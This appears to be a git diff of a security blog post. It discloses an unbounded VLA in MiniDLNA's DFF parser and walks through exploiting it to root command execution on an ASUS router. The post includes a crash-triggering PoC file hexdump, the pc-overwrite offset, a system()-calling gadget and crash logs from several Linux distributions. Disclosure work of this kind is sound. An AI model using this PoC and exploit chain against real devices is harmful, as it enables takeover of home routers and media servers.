

post updates

diff --git a/_posts/2026-06-17-minidlna-unbounded-vla-to-rce.md b/_posts/2026-06-17-minidlna-unbounded-vla-to-rce.md
@@ -1,27 +1,32 @@
 ---
 layout: post
 title: "What DFFuck did you copy? ReadyMedia / MiniDLNA DFF parser unbounded VLA to RCE"
-date: 2026-06-17 14:12 +0200
-description: "Unbounded VLA in ReadyMedia / MiniDLNA's DFF file parser leading to RCE on an ASUS RT-AX86U"
+date: 2026-11-01 00:00 +0200
+description: "Unbounded VLA in ReadyMedia / MiniDLNA's DFF file parser leads to RCE on an ASUS RT-AX86U"
 categories: [Vulnerability Research]
-tags: [MiniDLNA, ReadyMedia, vulnerability-research, CVE-2026-24444]
+tags: [MiniDLNA, ReadyMedia, vulnerability-research, CVE-2026-29508]
 ---
 
 # Intro
 
-Believe it or not, I always wanted to find a memory corruption vulnerability when I started doing vulnerability research, but somehow `grep` was sufficient to achieve RCE. This time I decided to poke at my own router, the [ASUS RT-AX86U](https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-ax86u/). The router is running on ARM, which I haven't played with so far, so this looked like a good learning experience. What I've found are multiple vulnerabilities in [ReadyMedia / MiniDLNA](https://sourceforge.net/projects/minidlna/) (not specific to the router itself) which can be exploited to crash the service, obtain sensitive data or achieve remote command execution. The one I chose to further look at and exploit affects the DFF file parsing, and is covered in this blog.
+I always wanted to find a memory corruption vulnerability when I started doing vulnerability research, but somehow `grep password` was sufficient to achieve RCE. This time I decided to poke at my own router, the [ASUS RT-AX86U](https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-ax86u/){:target="_blank"}. The router is running on ARM, which I haven't played with so far, so this looked like a good learning experience. 
+
+What I've found are multiple vulnerabilities in [ReadyMedia / MiniDLNA](https://sourceforge.net/projects/minidlna/){:target="_blank"} which can be exploited to crash the service, leak sensitive data, or achieve remote command execution. The one I dug into and exploited on my router hits the DFF file parser.
 
 # About ReadyMedia / MiniDLNA
 
-[ReadyMedia](https://sourceforge.net/projects/minidlna/) (formerly known as MiniDLNA) is a simple media server. It is a lightweight, free piece of software that turns your device into a home media server, streaming your movies, music and photos to a Smart TV, console or phone over Wi-Fi.
+[ReadyMedia](https://sourceforge.net/projects/minidlna/){:target="_blank"} (formerly known as MiniDLNA) is a simple media server. It is a lightweight, free piece of software that turns your device into a home media server, streaming your movies, music and photos to a Smart TV, console or phone.
 
-ReadyMedia / MiniDLNA is available in [repositories](https://repology.org/project/readymedia/packages) for various Linux distributions and is also commonly found on OpenMediaVault, TrueNAS, XigmaNAS, Synology NAS, QNAP NAS, Asustor NAS, Western Digital My Cloud, Wi-Fi routers with USB storage (Asus, Netgear, TP-Link, Linksys, ...), OpenWrt / DD-WRT firmware and others.
+It is available in [repositories](https://pkgs.org/download/minidlna){:target="_blank"} for various Linux distributions (check out the [Cross-Platform Confirmation](#cross-platform-confirmation) section at the end), confirmed present on ASUS, OpenWrt, and DD-WRT firmware; historically bundled as an add-on package on some NAS devices (Synology, QNAP, ReadyNAS).
 
 It is being replaced by better alternatives, but it is still widely present. A quick Shodan search shows its external exposure, but it is far more often exposed only internally.
 
 ![MiniDLNA Shodan Exposure](/assets/img/8/minidlna-exposure-shodan.png)
 
-By default, MiniDLNA listens on port 8200/tcp and is configured via `/etc/minidlna.conf` (on my ASUS router):
+A plain `minidlna` Shodan search returns 48,476 results but that number can't be read as 48,476 vulnerable instances. A quick look at the top hits shows most are running versions well below 1.3.0 (`1.1.4`, `1.0.24`, even `1.0`), which predate the DFF parser entirely and are therefore unaffected by this specific bug. Since the DFF parser only exists in versions 1.3.0 - 1.3.3, the exposure is a narrower subset of that total and drops down to approximately 7,400 instances.
+Also, as you will see, there are prerequisites for exploiting this vulnerability and I only exploited it on the ASUS router.
+
+By default, MiniDLNA listens on port 8200/tcp and is configured via `/etc/minidlna.conf`. Config from my ASUS router:
 
 ```bash
 root@dafuq:/tmp/home/root# netstat -tulnp | grep minidlna | grep LISTEN
@@ -45,18 +50,24 @@ media_dir=/mnt/Toshiba/Downloads
 
 As you can see in the config, it uses `inotify`. Rather than wasting CPU cycles continuously scanning the disk for modifications, MiniDLNA hooks into `inotify`, a native Linux kernel subsystem that watches the filesystem in real time. The moment you drop a new movie or song into a shared folder, `inotify` fires an event, waking MiniDLNA to parse only that one new file and inject its metadata into the database.
 
-I copied the `minidlna` binary from the router to my machine. It is a 32-bit binary running on 64-bit kernel.
+To visualize how your device discovers the ReadyMedia / MiniDLNA service on the network, here is a Wireshark network traffic capture:
+![MiniDLNA Network Traffic](/assets/img/8/minidlna-on-the-network.png)
+
+- Your device uses the Simple Service Discovery Protocol ([SSDP](https://en.wikipedia.org/wiki/Simple_Service_Discovery_Protocol){:target="_blank"}) protocol to discover MiniDLNA on the network via multicast (in this example, I used VLC Media Player to browse the local network).
+- It sends an M-SEARCH discovery packet to the SSDP multicast address (`239.255.255.250:1900` for IPv4, `[FF0x::C]:1900` for IPv6) (bottom-left).
+- The MiniDLNA server replies with a `200 OK` as a unicast reply to the multicast query, containing a `LOCATION` header that points to its device description XML: in this example, `http://192.168.1.1:8200/rootDesc.xml` (bottom-left).
+- Your device then makes an actual HTTP GET request to that `LOCATION` URL and receives the device's metadata (bottom right). Note that the server banner in the response (`Server: 4.1.52 DLNADOC/1.50 UPnP/1.0 MiniDLNA/1.3.3`) displays the exact MiniDLNA version.
+
+I already had an SMB share set up and a USB HDD mounted on the router, so I decided to take a look and copied the `minidlna` binary (32-bit) from the router (64-bit kernel) to my machine. _Note: I chose SMB as an attack vector, but if you want to attack the router via WAN, [AiCloud](https://www.asus.com/content/aicloud/) is your friend._
 
 ```bash
 ➜  minidlna file ./minidlna
 ./minidlna: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 4.1.0, stripped
 ```
 
-I already had an SMB share set up and a USB HDD mounted on the router, so I decided to take a look.
-
 # Vulnerability Discovery
 
-I used [Semgrep](https://semgrep.dev) to scan the ReadyMedia / MiniDLNA source which is available [here](https://sourceforge.net/projects/minidlna/files/minidlna/1.3.3/). I will omit all other vulnerabilities that it found, and will leave only relevant information for this blog post.
+I used [Semgrep](https://semgrep.dev){:target="_blank"} to scan the ReadyMedia / MiniDLNA source which is available [here](https://sourceforge.net/projects/minidlna/files/minidlna/1.3.3/){:target="_blank"}. I will omit all other vulnerabilities that it found, and will leave only relevant information for this blog post.
 
 ```bash
 ➜  minidlna-1.3.3 git:(master) semgrep scan
@@ -132,7 +143,7 @@ tagutils/tagutils-dff.c:147:                    while (count < propckDataSize)
 tagutils/tagutils-dff.c:376:    //DPRINTF(E_DEBUG, L_SCANNER, "propckDataSize is 0x%016lx\n", (long unsigned int)propckDataSize);
 ```
 
-For clarity, I think it is best to drop the source of `tagutils-dff.c` here until the vulnerable part of the code:
+For clarity, I think it is best to drop the source of `tagutils-dff.c` here, up to the vulnerable part:
 
 ```c
 //=========================================================================
@@ -285,13 +296,46 @@ _get_dfffileinfo(char *file, struct song_metadata *psong)
 }
 ```
 
-More about the DFF file structure can be found on [Sonic Studio](https://sonicstudio.com/pdf/dsd/DSDIFF_1.5_Spec.pdf).
-
 The code parses the DFF file via the `_get_dfffileinfo` function by first opening the file, `fread`ing the first 32 bytes, and verifying that it contains the appropriate magic chunks, specifically `FRM8`, `DSD`, and `FVER` at offsets 0, 12, and 16.
 
 `fread` now points to the `ckbuf` array, which should start with the `PROP` chunk, as checked on line 125. If it exists, at offset `ckbuf + 4` (right after the `PROP` magic), the code uses the `GET_DFF_INT64` macro to obtain 8 bytes. This macro is used to combine eight separate bytes from a file into a single 64-bit integer. 
 
-At line 130 - it uses the `propckDataSize` size, which is entirely under our control, to create a `propckData` Variable Length Array (VLA) with no bounds checks. Let's check this out.
+At line 130 - it uses the `propckDataSize`, which is entirely under our control, to create a `propckData` Variable Length Array (VLA) with no bounds checks. Let's check this out.
+
+The DFF file structure looks like this:
+
+```bash
+'FRM8'  (root, formType = 'DSD ')                    
+│
+├── 'FVER'  Format Version Chunk                     
+│
+├── 'PROP'  Property Chunk  (propType = 'SND ')      
+│     ├── 'FS  '  Sample Rate Chunk                  
+│     ├── 'CHNL'  Channels Chunk                      
+│     ├── 'CMPR'  Compression Type Chunk              
+│     ├── 'ABSS'  Absolute Start Time Chunk           
+│     └── 'LSCO'  Loudspeaker Config Chunk            
+│
+├── 'DSD '  DSD Sound Data Chunk   ──┐
+├── 'DST '  DST Sound Data Chunk   ──┴─ // either DSD or DST
+│     ├── 'FRTE'  DST Frame Info Chunk               
+│     ├── 'DSTF'  DST Frame Data Chunk                
+│     └── 'DSTC'  DST Frame CRC Chunk                
+│
+├── 'DSTI'  DST Sound Index Chunk                    
+│
+├── 'COMT'  Comments Chunk                            
+│
+├── 'DIIN'  Edited Master Info Chunk                  
+│     ├── 'EMID'  Edited Master ID Chunk              
+│     ├── 'MARK'  Marker Chunk                       
+│     ├── 'DIAR'  Artist Chunk                        
+│     └── 'DITI'  Title Chunk                         
+│
+└── 'MANF'  Manufacturer Specific Chunk               
+```
+
+More about the DFF file structure can be found on [Sonic Studio](https://sonicstudio.com/pdf/dsd/DSDIFF_1.5_Spec.pdf){:target="_blank"}.
 
 First I created a valid DFF file:
 
@@ -307,7 +351,7 @@ user@ubuntu:~ hexdump -C dff-input/sample.dff
 0000006f
 ```
 
-Then I changed the PROP chunk size to good old `0x41414141` (1094795585 in decimal):
+Then I changed the PROP chunk size to good old `0x41414141` (1094795585 in decimal, ~1GB):
 ![DFF POC 1](/assets/img/8/minidlna-dff-poc-1.png)
 
 Copied it over to my SMB file share, and looked at the `dmesg` output on my router:
@@ -344,14 +388,13 @@ SIGSEGV!
 # Vulnerability analysis
 
 So, the prerequisites to crash the service are:
-- ReadyMedia / MiniDLNA has to be network-reachable
-- SMB service needs to be network-reachable
-- user that has permissions to write to a SMB share
+- SMB service needs to be network-reachable (LAN attack vector) / AiCloud enabled (WAN attack vector)
+- user that has permissions to write via an SMB share / AiCloud
 - a DFF file with an oversized PROP Chunk Size
 
 Until that day, I never really looked at ARM instructions nor did I have any experience with ARM exploitation. But registers are registers, memory is memory, instructions are instructions.
 
-First, let's check the binary protections. For this I used [ExeCheck](https://github.com/kost/execheck) from my colleague Kost.
+First, let's check the binary protections. For this I used [ExeCheck](https://github.com/kost/execheck){:target="_blank"} from my colleague Kost.
 
 ```bash
 root@dafuq:/tmp/home/root# ./execheck-aarch64-unknown-linux-musl /usr/sbin/minidlna
@@ -391,7 +434,13 @@ root@dafuq:/tmp/home/root# cat /proc/sys/kernel/randomize_va_space
 
 Well, that is not nice. That means full ASLR - stack, heap, and mmap (libraries) are all randomized, and I do not have any information disclosure vulnerabilities that would leak some memory addresses. The one thing it doesn't touch is the base of a non-PIE binary like this one: its code, PLT and any gadgets stay at fixed addresses.
 
-I copied over `gdb-static` and modified the poc.dff file a bit - added a bunch of `0x41`s in the file to see how that would affect the registers, and set the PROP Chunk size to `0xFFFFFFFF`.
+I copied over `gdb-static` and modified the poc.dff file a bit by adding a bunch of `0x41`s in the file to see how that would affect the registers, and set the PROP Chunk size to `0xFFFFFFFF`. So, why `0xFFFFFFFF`? While trying to exploit the vulnerability it just seemed to work reliably. But it did bug me why this worked, specifically? I didn't actually get it until I sat down to write this blog post.
+
+Every time the program needs space for something, it keeps a running count of how much room is left, like an odometer with a fixed number of digits. Ask for space, and the counter ticks down. Ask for more space than the counter can actually represent, though, and instead of going negative, it wraps back around near the top, the same way an odometer rolls from all-9s back to zero. Our "odometer" is the stack pointer `sp`. `sp` is a 32-bit register, so it can only hold values from `0` up to `0xFFFFFFFF` (4,294,967,295 in decimal). That's the entire range, every bit set to 1. `0xFFFFFFFF` isn't just "a big number close to the wraparound point", it *is* the wraparound point.
+
+That's the difference between my two test values. `0x41414141` is a big number, but not big enough to hit that wraparound point, so the program just tries to grab about 1 GB of space and crashes the boring, ordinary way and nothing interesting happens. `0xFFFFFFFF` is the exact number that makes this particular counter wrap all the way back. That's the number that turns an ordinary out-of-memory crash into the actual bug: the program thinks it reserved almost no space on the stack, while still believing it's allowed to write nearly 4 GB of data.
+
+The other thing is that `fread()` call (at line 132) sounds like it only "reads," but reading and writing are two sides of the same call. `fread(dest, size, count, file)` reads bytes from the file, and writes them into `dest` buffer in memory.
 
 ![DFF POC2](/assets/img/8/minidlna-dff-poc-2.png)
 
@@ -409,7 +458,6 @@ Attaching to process 24141
 0xf6c45728 in select () from /lib/libc.so.6
 (gdb) c
 Continuing.
-
 Thread 2 "minidlna" received signal SIGSEGV, Segmentation fault.
 [Switching to LWP 24143]
 0xf6bf172e in strlen () from /lib/libc.so.6
@@ -420,7 +468,7 @@ Thread 2 "minidlna" received signal SIGSEGV, Segmentation fault.
 * 2    LWP 24143 "minidlna" 0xf6bf172e in strlen ()
    from /lib/libc.so.6
 (gdb) info reg
-r0             0x41414141          1094795585
+r0             0xffffffff          4294967295
 r1             0x41414140          1094795584
 r2             0x1                 1
 r3             0x0                 0
@@ -460,7 +508,6 @@ Attaching to process 16727
   2    LWP 16728 "minidlna" 0xf6b1337c in poll () from /lib/libc.so.6
 (gdb) c
 Continuing.
-
 Thread 2 "minidlna" received signal SIGILL, Illegal instruction.
 [Switching to LWP 16728]
 0x42424242 in ?? ()
@@ -504,7 +551,7 @@ Type "help", "copyright", "credits" or "license" for more information.
 >>> len("000000004141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414142424242")
 1968
 ```
-1968 hex characters. So, 984 bytes land before the `pc` overwrite. That's the offset I need from the start of the PROP chunk data. More padding?
+1968 / 2 (to convert to bytes) - 4 (to take the 0x42424242 off the count) = 980. So, 980 bytes land before the `pc` overwrite. That's the offset I need from the start of the PROP chunk data. More padding? Let's add a bunch of `0x43`'s after the `$pc` overwrite. 
 
 ```bash
 root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
@@ -517,9 +564,9 @@ Attaching to process 24389
 
 ⚠ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
 0xf690d728 in select () from /lib/libc.so.6
+
 (gdb) c
 Continuing.
-
 Thread 2 "minidlna" received signal SIGILL, Illegal instruction.
 [Switching to LWP 24391]
 0x42424242 in ?? ()
@@ -701,7 +748,7 @@ Start Addr End Addr   Size       Offset     Perms File
 ...
 ```
 
-Since the stack grows downward and `propckDataSize` is attacker-controlled, the VLA subtracts a value of my choosing from `sp`, walking it far down through the thread's stack mapping (capped at ~4 GiB, since size_t is 32-bit), far enough to land it on the bytes I planted. To summarize: I have control over the `$pc`, `$r0` and `$r4-$r11` registers.
+Since the stack grows downward and `propckDataSize` is attacker-controlled, the VLA subtracts a value of my choosing from `sp`, walking it far down through the thread's stack mapping (capped at ~4 GiB, since size_t is 32-bit). To summarize: I have control over the `$pc`, `$r0` and `$r4-$r11` registers.
 
 To confirm where it actually breaks, I rebuilt MiniDLNA with debug symbols and ran it under `pwndbg` on a Raspberry Pi:
 
@@ -814,12 +861,11 @@ Thread 2 "minidlna" hit Breakpoint 1.2, 0xf6d6396c in system ()  // [1] we hit t
    from /lib/libpthread.so.0
 (gdb) x $r0
 0xffffffff: ❌ Cannot access memory at address 0xffffffff
-(gdb)
 ```
 
-Bingo. However, I ran into an issue - the `$r0` register is used as argument to the `system()` function (`system(const char *command);`), and the `$r0` register contains the PROP Chunk Size. If I modify that, the process might not crash. Also, NX is enabled so I need to find ROP gadgets. The gadget I need needs to put something I have control over (stack, `$r4-$r11`) into the `$r0` register.
+Bingo. However, I ran into an issue - the `$r0` register is used as argument to the `system()` function (`system(const char *command);`), and the `$r0` register contains the PROP Chunk Size. Also, NX is enabled so I need to find ROP gadgets. The gadget I need needs to put something I have control over (stack, `$r4-$r11`) into the `$r0` register.
 
-I used [ROPgadget](https://github.com/jonathansalwan/ropgadget) for this, but I did not find any gadgets that would help me. And then, once again, I decided to use `grep` and look around the `system()` call.
+I used [ROPgadget](https://github.com/jonathansalwan/ropgadget){:target="_blank"} for this, but I did not find any gadgets that would help me. And then, once again, I decided to use `grep` and look around the `system()` call.
 
 Look at this bad boy:
 
@@ -832,7 +878,7 @@ Look at this bad boy:
    156f0: ebfff873      bl  0x138c4 <system@plt>    @ imm = #-0x1e34
 ```
 
-This little snippet loads `$r0` with a pointer 8 bytes ahead of the stack pointer and then falls straight into `system@plt` Let's modify the PoC DFF file.
+This little snippet loads `$r0` with a pointer 8 bytes ahead of the stack pointer and then falls straight into `system@plt`. Let's modify the PoC DFF file.
 
 ![DFF POC 4](/assets/img/8/minidlna-dff-poc-4.png)
 
@@ -897,7 +943,7 @@ Thread 2 "minidlna" hit Breakpoint 1.2, 0xf6e0996c in system ()
 
 Nice. Now `$r0` holds the memory address of `$sp+8`, and I have control over the contents. Time to get a shell.
 
-As the prerequisite is to have write access to a SMB share - I can already transfer all the binaries I need, as ASUS router does not have any I can use out of the box to get a reverse shell (at least from my experiments). I have command execution as root (as I can put any command on the stack which `system()` will execute), but a shell is a shell.
+As the prerequisite is to have write access via an SMB share / AiCloud - I can already transfer all the binaries I need, as ASUS router does not have any I can use out of the box to get a reverse shell (at least from my experiments). I have command execution as root (as I can put any command on the stack which `system()` will execute), but a shell is a shell.
 
 By default, the ASUS router mounts external devices to `/tmp/mnt`, so I opted for this payload:
 
@@ -906,7 +952,7 @@ By default, the ASUS router mounts external devices to `/tmp/mnt`, so I opted fo
 It will `find` the copied `netcat` binary in `/tmp/mnt`, run it with the arguments I baked into the DFF file, and then restart minidlna, as it SIGSEGVs right after the payload fires, and I didn't bother making it stable post-exploitation.
 
 ```bash
-➜  minidlna mount | grep Downloads
+➜  mini mount | grep Downloads
 //shareuser@192.168.1.1/Downloads on /Volumes/Downloads (smbfs, nodev, nosuid, mounted by user)
 ```
 
@@ -924,19 +970,122 @@ root@dafuq:/tmp/home/root# nvram get firmver
 9.0.0.4
 ```
 
+# Cross-Platform Confirmation
+
+Since ReadyMedia / MiniDLNA ships identically across a dozen platforms, I spun up the same MiniDLNA 1.3.3 codebase in Docker across six distributions to confirm the DFF parser crash. 
+
+Same PoC file everywhere:
+
+```bash
+00000000  46 52 4d 38 00 00 00 00 00 00 10 00 44 53 44 20  |FRM8........DSD |
+00000010  46 56 45 52 00 00 00 00 00 00 00 04 01 05 00 00  |FVER............|
+00000020  50 52 4f 50 00 00 00 02 00 00 00 00              |PROP........|
+```
+
+A minimal `FRM8`/`DSD `/`FVER` header followed by a `PROP` chunk with `ckDataSize = 0x0000000200000000` (~8 GB).
+
+#### Ubuntu 24.04 (minidlna 1.3.3, apt)
+
+```bash
+[Sat Jun 13 12:42:32 2026] minidlnad[3514]: segfault at 7ffeffa96568 ip 00005622f9d5313a sp 00007ffeffa95570 error 6 in minidlnad[2e13a,5622f9d2e000+2e000] likely on CPU 1 (core 1, socket 0)
+```
+
+I also rebuilt this one from source with debug symbols and caught it live in gdb:
+
+```bash
+Thread 2 "minidlnad" received signal SIGSEGV, Segmentation fault.
+[Switching to Thread 0x7f15a5e526c0 (LWP 11038)]
+0x000055cd1fe70348 in _get_dfffileinfo (file=0x7f15a5e48560 "/media/poc.dff", psong=0x7f15a5e47010) at tagutils/tagutils-dff.c:130
+130			unsigned char propckData[propckDataSize];
+#0  0x000055cd1fe70348 in _get_dfffileinfo (...) at tagutils/tagutils-dff.c:130
+        propckDataSize = 8589934592
+        totalcount = 8589934604
+        ckbuf = "PROP\000\000\000\002\000\000\000"
+#1  0x000055cd1fe71fd7 in _get_fileinfo (...) at tagutils/tagutils.c:204
+#2  0x000055cd1fe722ef in readtags (...) at tagutils/tagutils.c:304
+#3  0x000055cd1fe5785a in GetAudioMetadata (...) at metadata.c:380
+#4  0x000055cd1fe5dcf3 in insert_file (...) at scanner.c:486
+#5  0x000055cd1fe603e5 in monitor_insert_file (...) at monitor.c:257
+#6  0x000055cd1fe737d7 in inotify_thread (arg=0x0) at monitor_inotify.c:357
+#7  0x00007f15b049cb84 in start_thread (...) at ./nptl/pthread_create.c:447
+#8  0x00007f15b0529cc4 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:100
+
+rax            0x200000000         8589934592
+rcx            0x200000000         8589934592
+rip            0x55cd1fe70348      0x55cd1fe70348 <_get_dfffileinfo+1379>
+```
+
+Same call chain as the ARM backtrace above: `inotify_thread` -> `monitor_insert_file` -> `insert_file` -> `GetAudioMetadata` -> `readtags` -> `_get_dfffileinfo`.
+
+#### Debian 12 (minidlna 1.3.3, apt)
+
+```bash
+--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffb0c871268} ---
++++ killed by SIGSEGV +++
+--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=2153, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
+```
+
+#### Fedora 44 (minidlna 1.3.3, dnf)
+
+```bash
+--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffccecf0f28} ---
++++ killed by SIGSEGV +++
+--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1432, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
+```
+
+#### Arch Linux (minidlna 1.3.3-7, pacman)
+
+```bash
+--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffc1965a688} ---
++++ killed by SIGSEGV +++
+--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1183, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
+```
+
+#### Alpine Linux (minidlna 1.3.3-r3, apk)
+
+```bash
+open("/media/poc.dff", O_RDONLY|O_LARGEFILE) = 4
+readv(4, [{iov_base="FRM8\0\0\0\0\0\0\20\0DSD FVER\0\0\0\0\0\0\0\4\1\5\0", iov_len=31}, {iov_base="\0PROP\0\0\0\2\0\0\0\0", iov_len=1024}], 2) = 44
+--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7fff1dff4708} ---
++++ killed by SIGSEGV +++
+--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=29, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
+```
+
+#### Raspbian 11 (compiled from the source with debug symbols)
+
+```bash
+pwndbg> bt
+#0  __GI__IO_fread (buf=0x2d18f3f0, size=1094795585, count=1, fp=0x6dc00aa0) at iofread.c:32
